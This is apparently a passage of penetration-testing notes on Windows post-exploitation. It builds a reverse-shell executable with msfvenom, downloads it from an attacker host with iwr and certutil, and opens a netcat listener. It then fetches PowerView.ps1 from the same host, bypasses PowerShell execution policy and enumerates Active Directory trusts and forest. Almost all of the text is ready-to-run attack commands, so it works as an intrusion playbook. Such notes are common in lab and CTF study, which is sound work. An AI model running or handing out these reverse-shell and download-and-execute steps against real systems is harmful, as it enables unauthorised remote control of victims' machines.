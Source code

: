 To upgrade the shell we can craft a msfvenom payload and execute it in the target machine.

{% code overflow="wrap" %}
```bash
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=$ATT_IP LPORT=$PORT -f exe -o rev.exe
```
{% endcode %}

Transfer the file to target machine

```bash
# target machine
iwr http://$ATT_IP/rev.exe -OutFile C:\Tmp\rev.exe

certutil -urlcache -f http://IP:PORT/rev.exe rev.exe
```

Set a listener and then run the executable

```bash
# attacker machine
nc -nvlp $PORT

# target machine
cd C:\Tmp
.\rev.exe
```

Now we have a stable shell



### PowerView

```powershell
iwr http://$ATT_IP:PORT/PowerView.ps1 -OutFile C:\Users\...\pv.ps1

powershell -ep bypass
import-module .\pv.ps1
```

<pre class="language-powershell"><code class="lang-powershell"><strong># get the ad trust information
</strong><strong>Get-ADTrust -Filter * 
</strong>Get-DomainTrust -Filter *

# get forest information
Get-ADForest
</code></pre>



